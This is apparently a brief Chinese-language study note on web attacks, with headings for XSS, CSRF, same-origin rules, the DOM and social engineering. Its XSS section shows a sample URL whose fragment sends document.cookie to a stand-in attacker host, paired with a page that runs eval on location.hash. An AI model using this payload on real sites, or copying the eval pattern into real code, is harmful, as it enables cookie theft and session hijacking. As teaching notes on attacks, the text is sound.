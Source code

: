 2019.05.23
# XSS（盗取）
如果百度上有个链接地址是
http://www.baidu.com/#new%20Image().src="http://hack.com?cookie="+escape(document.cookie)
同时页面会执行了如下script脚本
eval(location.hash.substr(1));
//location.hash 获取#和后面的东西
那么谁访问后都会把cookie泄露
# CSRF（借用）
# 域名相同才算【同域】，不然都是跨域，顶级域名相同并没卵用
# DOM document object model
# 社工
Google Hack、SNS垂直搜索、数据库
# 
